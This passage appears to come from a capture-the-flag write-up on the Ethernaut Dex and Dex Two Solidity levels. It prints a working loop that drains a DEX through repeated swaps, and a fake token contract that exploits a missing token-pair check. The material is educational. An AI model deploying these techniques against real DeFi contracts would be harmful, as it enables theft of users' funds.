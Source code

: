 ```solidity
function attack(IDex dex) public {
  address from = dex.token1();
  address to = dex.token2();
  uint256 swapAmount;

  // keep swapping until we deplete either token in the dex
  while (dex.balanceOf(to,   address(dex)) != 0 &&
         dex.balanceOf(from, address(dex)) != 0) {

    // control to avoid the "Not enough to swap" error
    swapAmount = min(
      dex.balanceOf(from, address(this)),
      dex.balanceOf(from, address(dex))
    );

    dex.swap(from, to, swapAmount);
    (from, to) = swapAddresses(from, to);
  }
}
```

With `min()` and `swapAddresses()` convenience functions.

### References

* https://eips.ethereum.org/EIPS/eip-20
* https://docs.openzeppelin.com/contracts/4.x/erc20
* https://github.com/OpenZeppelin/openzeppelin-contracts/blob/f8e3c375d19bd12f54222109dd0801c0e0b60dd2/contracts/token/ERC20/IERC20.sol

## 23 Dex Two

To beat this level, we need to comply with

```solidity
IERC20(token1).balanceOf(_instance) == 0 && ERC20(token2).balanceOf(_instance) == 0
```

### Solution

Looks very similar to [the Dex level](#22-dex). Notice, however the absence of this control from the former challenge in the `swap()` function:

```solidity
require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
```

In other words, we could use tokens not set into the Dex to engage in swapping:

The design of the `MyToken` contract could be

```solidity
contract MyToken {
  function transferFrom(address, address, uint256) public pure returns (bool) {
    // we don't even need to do anything here
    return false;
  }

  function balanceOf(address) public pure returns(uint256) {
    // the dex will ask for IERC20(from).balanceOf(address(this))
    // we give them the value `1`
    // the dex uses it to compute the swap amount = amount * token_to / token_from
    return 1;
  }
}
```
